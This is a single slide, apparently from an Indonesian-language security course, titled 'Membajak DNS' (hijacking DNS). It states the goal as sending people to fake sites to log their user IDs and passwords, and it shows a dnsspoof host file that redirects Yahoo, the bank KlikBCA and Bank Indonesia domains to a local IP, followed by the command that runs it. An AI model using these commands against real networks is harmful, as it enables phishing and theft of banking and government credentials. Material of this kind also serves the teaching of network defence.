

# Membajak DNS
Untuk mengarahkan orang ke situs palsu (dan kemudian dicatat userid & passwordnya)
Unix# cat dnsspoofhost
192.168.1.1	*.yahoo.com
192.168.1.1	*.klikbca.com
192.168.1.1	*.bi.go.id
unix# dnsspoof –f dnsspoofhost